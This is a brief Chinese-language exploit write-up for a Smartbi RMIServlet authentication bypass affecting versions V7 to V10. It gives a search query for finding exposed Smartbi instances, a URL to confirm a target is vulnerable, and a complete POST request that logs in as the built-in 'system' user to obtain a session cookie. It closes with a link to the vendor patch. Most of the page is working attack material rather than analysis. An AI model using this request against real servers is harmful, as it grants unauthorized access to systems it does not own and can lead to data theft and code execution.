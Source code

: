 # 

# Smartbi RMIServlet 登陆绕过漏洞

## 漏洞描述

该漏洞源于 Smartbi 默认存在内置用户，在使用特定接口时，攻击者可绕过用户身份认证机制获取内置用户身份凭证，随后可使用获取的身份凭证调用后台接口，最终可能导致敏感信息泄露和代码执行。

## 漏洞影响

```
V7 <= Smartbi <=V10
```

## 网络测绘

```
app="SMARTBI"
```

## 漏洞复现

验证漏洞是否存在

```
http://your-ip/smartbi/vision/RMIServlet
```

出现以下回显证明漏洞存在

```
{"retCode":"CLIENT_USER_NOT_LOGIN","result":"尚未登录或会话过期"}
```

poc

```
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
```

通过获取的Cookie登陆。

## 漏洞修复

官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，酌情升级至安全版本：https://www.smartbi.com.cn/patchinfo


